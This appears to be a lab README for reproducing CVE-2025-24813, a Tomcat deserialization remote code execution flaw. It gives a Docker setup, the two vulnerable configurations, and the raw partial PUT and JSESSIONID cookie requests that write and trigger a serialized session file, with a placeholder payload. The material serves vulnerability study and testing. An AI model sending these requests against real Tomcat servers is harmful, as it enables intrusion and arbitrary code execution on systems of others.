

# Tomcat Session Deserialization Remote Code Execution (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Tomcat is a widely used open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language, and WebSocket technologies.

A deserialization vulnerability was found in Apache Tomcat from 11.0.0-M1 through 11.0.2, from 10.1.0-M1 through 10.1.34, from 9.0.0.M1 through 9.0.98. It occurs when Tomcat is configured with both writable DefaultServlet (readonly=false) and file-based session persistence. The combination allows attackers to write arbitrary files to the server and trigger deserialization of these files by manipulating the JSESSIONID cookie, ultimately leading to remote code execution.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## Environment Setup

Execute the following commands to start a vulnerable Tomcat 9.0.97 server:

```
docker compose build
docker compose up -d
```

After the server starts, you can access the Tomcat example page by visiting `http://your-ip:8080`.

## Vulnerability Reproduction

The vulnerability exists due to two key misconfigurations in Tomcat. First, the DefaultServlet is configured with readonly=false, allowing file uploads:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Second, Tomcat is configured to use file-based session persistence.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

Both configurations use the same default storage path: `$CATALINA_BASE/work/Catalina/localhost/ROOT`.

When sending a partial PUT request, Tomcat converts path separators (/) in the file path to periods (.) and temporarily stores the file in the session storage directory. By crafting a specific request, we can write a malicious serialized object to this directory.

To exploit this vulnerability, first send a partial PUT request with the Content-Range header to write a file named `.deserialize.session` in the temporary directory (I use the URLDNS gadget for testing purposes):

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Content-Length: 1234
Content-Range: bytes 0-5/10

deserialize content
```


Then, send another request with a manipulated JSESSIONID cookie to trigger deserialization of the file:

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: JSESSIONID=.deserialize


```



As you can see, the URLDNS gadget is successfully deserialized, and the DNS request is sent:


In a real attack scenario, the "deserialize content" would be replaced with a malicious serialized Java object that can execute arbitrary code when deserialized by web applications.
